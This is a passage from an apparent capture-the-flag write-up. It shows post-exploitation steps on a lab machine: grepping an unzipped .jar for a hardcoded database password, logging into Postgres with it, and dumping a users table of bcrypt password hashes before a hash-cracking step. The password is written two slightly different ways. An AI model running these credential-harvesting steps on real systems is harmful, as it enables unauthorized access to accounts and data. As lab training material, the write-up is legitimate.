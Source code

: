 ![app Reverse Shell](https://blog.shattersec.com/content/images/20250202145049-Pasted%20image%2020250202014353.png)

`.jar` files are essentially `.zip` files. Let's copy the file, unzip it, and see if we can find anything useful.

```sh
grep -r -i 'password' .
```

There's an interesting file, `/BOOT-INF/classes/application.properties` that has a hardcoded, plaintext password: `Vg&nvzAQ7XxRapp`

![application.properties](https://blog.shattersec.com/content/images/20250202145150-Pasted%20image%2020250202014729.png)

By examining the whole file, we see that the password is used by the application to login to a locally-ran postgres server. Let's connect and see what what can find. We can login using the following command on the reverse shell:

```cmd
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

### Postgres Enumeration

Let's see what databases are available to us, and what we can find:

```sql
\list
                       List of databases
Name        | Owner    | Encoding | Collate     | Ctype       | Access privileges
------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres         +
            |          |          |             |             | postgres=CTc/postgres
template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres         +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

\connect cozyhosting
\dt
SELECT * FROM users;
```

![Postgres Dump](https://blog.shattersec.com/content/images/20250202145234-Pasted%20image%2020250202015242.png)

```sql
   name    |                           password                           | role 
-----------+--------------------------------------------------------------+------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

### Crack hashes
